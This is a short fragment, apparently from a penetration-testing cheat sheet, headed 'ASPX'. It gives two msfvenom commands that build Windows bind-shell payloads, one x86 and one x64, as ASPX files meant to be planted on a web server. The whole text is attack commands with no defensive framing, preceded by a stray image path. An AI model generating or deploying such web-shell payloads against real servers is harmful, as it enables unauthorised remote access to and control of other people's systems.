 # ASPX

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o shell-x86.aspx`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o shell-x64.aspx`